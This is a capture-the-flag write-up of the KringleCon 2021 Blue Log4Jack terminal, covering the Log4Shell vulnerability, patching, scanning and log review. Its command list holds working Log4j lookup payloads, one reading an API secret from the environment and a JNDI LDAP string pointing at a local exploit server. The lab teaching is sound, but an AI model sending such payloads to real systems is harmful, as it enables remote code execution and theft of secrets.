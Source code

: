 ## Terminals write-ups

KringleCon 2021 occurred amidst the release of the Log4j vulnerabilities (CVE-2021-44228). These vulnerabilities allow an attacker to perform remote code execution by exploiting the insecure JNDI lookups feature exposed by the logging library log4j. As a result, there were some bonus terminals allowing to grasp how these vulnerabilities work and the steps that could be taken for protection.

Bow Ninecandle presented us the Blue Log4Jack terminal, in which we looked at details around these vulnerabilities and explored scanning tools looking for vulnerable source code and compromise attempts. 

### <a name="bonusblue"></a>Bonus! Blue Log4Jack

We were presented with two files ```DisplayFilev1.java``` and ```DisplayFilev2.java```: the first one does not handle non-existing file errors properly, while the second leverages the log4j library to exit gracefully and display an error message. 
With a vulnerable log4j library, improper input validation is performed, allowing an attacker to supply input that retrieves more data than intended from the system. He can also use the vulnerability to initiate a remote connection to an attacking system under his control.
We then attempt to exploit this vulnerability on a patched system and observe it is no longer applicable due to proper input validation.
The next steps consist in leveraging a scanning tool to scan for vulnerable Log4j applications.
We finally examine web log files in order to identify requests including the Log4j lookup syntax and identify the different ways an attacker can leverage this vulnerability.
To resolve the terminal, we basically need to follow the instructions and issue a series of commands (```next``` and ```ls``` excluded):

```
# why use log4j?
cd vulnerable
cat DisplayFilev1.java
javac DisplayFilev1.java
java DisplayFilev1.java testfile.txt
java DisplayFilev1.java testfile2.txt
cat DisplayFilev2.java
javac DisplayFilev2.java
java DisplayFilev2.java testfile2.txt

# what does the vulnerability allows to do?
java DisplayFilev2.java '${java:version}' 
java DisplayFilev2.java '${env:APISECRET}' 
./startserver
java DisplayFilev2.java '${jndi:ldap://127.0.0.1:1389/Exploit}'

# how does the patch solves the issue?
cd ~/patched
source classpath.sh
javac DisplayFilev2.java
java DisplayFilev2.java '${java:version}'
 
# scanning for vulnerable systems
cd
./log4j2-scan vulnerable
./log4j2-scan patched
./log4j2-scan /var/www/solr

# scanning for compromise attempts in logs
./logshell-search.sh /var/log/www
./logshell-search.sh /var/log/www | sed '1!d'
./logshell-search.sh /var/log/www | sed '2!d'
./logshell-search.sh /var/log/www | sed '3!d'
```
